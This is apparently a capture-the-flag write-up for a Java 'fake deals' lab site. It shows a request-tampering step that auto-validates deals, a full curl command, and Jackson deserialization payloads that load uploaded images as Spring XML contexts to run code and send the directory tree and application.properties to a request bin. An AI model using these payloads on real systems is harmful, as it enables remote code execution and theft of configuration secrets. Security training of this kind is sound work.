 # JAVALAB EXPLOITATION

## PART 1 (AUTO VALIDATE A DEAL)

### Step 1

Post a deal and intercept the request

```HTTP
------WebKitFormBoundaryGTkAu8msA7WAW6bE
Content-Disposition: form-data; name="infos"; filename="blob"
Content-Type: application/json

{"description":"aa","link":"aa"}
------WebKitFormBoundaryGTkAu8msA7WAW6bE--
```

### Step 2

Change the JSON and add the field "validated" with the name of the file in Base64

```HTTP
------WebKitFormBoundaryGTkAu8msA7WAW6bE
Content-Disposition: form-data; name="infos"; filename="blob"
Content-Type: application/json

{"description":"aa","link":"aa","validated":"fileNameInBase64"}
------WebKitFormBoundaryGTkAu8msA7WAW6bE--
```

### Step 3

Send the request, and ...... TADAM!

### SPEED RUN

**Prerequisites**: send a file with BD1.jpg

```TXT
curl 'https://fakedeals.ctfdemo.agile4security.io/api/upload' \
  -H 'accept: text/plain' \
  -H 'content-type: multipart/form-data; boundary=----WebKitFormBoundaryjbZC84C37sSjE8Xw' \
  -H 'accept-language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7' \
  -H 'cookie: JSESSIONID=BF11716E7CF0305F7D7B78C93909164B' \
  --data-raw $'------WebKitFormBoundaryjbZC84C37sSjE8Xw\r\nContent-Disposition: form-data; name="file"; filename="BD1.jpg"\r\nContent-Type: image/jpeg\r\n\r\n\r\n------WebKitFormBoundaryjbZC84C37sSjE8Xw\r\nContent-Disposition: form-data; name="infos"; filename="blob"\r\nContent-Type: application/json\r\n\r\n{"description":"ry","link":"ry"}\r\n------WebKitFormBoundaryjbZC84C37sSjE8Xw--\r\n' \
  --compressed
```


## PART 2 (Get application.properties or RCE)

### SETP 0

Upload the same image twice to get a stack trace

```JAVA
java.nio.file.FileAlreadyExistsException: /opt/app/tmp/BD-Blagues-toto.jpg
	at java.base/sun.nio.fs.UnixException.translateToIOException(UnixException.java:94)
	at java.base/sun.nio.fs.UnixException.rethrowAsIOException(UnixException.java:111)
	at java.base/sun.nio.fs.UnixException.rethrowAsIOException(UnixException.java:116)
	at java.base/sun.nio.fs.UnixFileSystemProvider.newByteChannel(UnixFileSystemProvider.java:219)
	at java.base/java.nio.file.spi.FileSystemProvider.newOutputStream(FileSystemProvider.java:478)
	at java.base/java.nio.file.Files.newOutputStream(Files.java:219)
	at java.base/java.nio.file.Files.copy(Files.java:3066)
```

Now, we know that every images are store in **/opt/app/tmp**

### STEP 1

1. Create a new deal and upload **"collect_arbo.jpg"**. This script (file) will send the arbo in /tmp/test.txt
2. To execute this file, use the Contact form, intercept the request and change **details** content

```JSON
{"email":"a","content":"a","details":{"@class":"com.laba4s.Private","phone":"a"}}
```

to "["org.springframework.context.support.FileSystemXmlApplicationContext","/opt/app/tmp/collect_arbo.jpg"]"

Final JSON:
```JSON
{"email":"a","content":"a","details":["org.springframework.context.support.FileSystemXmlApplicationContext","/opt/app/tmp/collect_arbo.jpg"]}
```

### STEP 2

1. Create a new deal and upload **"send_arbo_to_request_bin.jpg"**. This script (file) will send the arbo to your $request bin
2. To execute this file, use the Contact form, intercept the request and change **details** content

```JSON
{"email":"a","content":"a","details":{"@class":"com.laba4s.Private","phone":"a"}}
```

to "["org.springframework.context.support.FileSystemXmlApplicationContext","opt/app/tmp/send_arbo_to_request_bin.jpg"]" to execute the content of send_arbo_to_request_bin.jpg

Final JSON:
```JSON
{"email":"a","content":"a","details":["org.springframework.context.support.FileSystemXmlApplicationContext","/opt/app/tmp/send_arbo_to_request_bin.jpg"]}
```

### STEP 3

1. Create a new deal and upload **"send_config_file_to_request_bin.jpg"**. This file will send the application.properties to your $request bin
2. Use the Contact form, intercept the request and change **details** content

```JSON
{"email":"a","content":"a","details":{"@class":"com.laba4s.Private","phone":"a"}}
```

to "["org.springframework.context.support.FileSystemXmlApplicationContext","/opt/app/tmp/send_config_file_to_request_bin.jpg"]" to execute the content of send_arbo_to_request_bin.jpg

Final JSON:
```JSON
{"email":"a","content":"a","details":["org.springframework.context.support.FileSystemXmlApplicationContext","/opt/app/tmp/send_config_file_to_request_bin.jpg"]}
```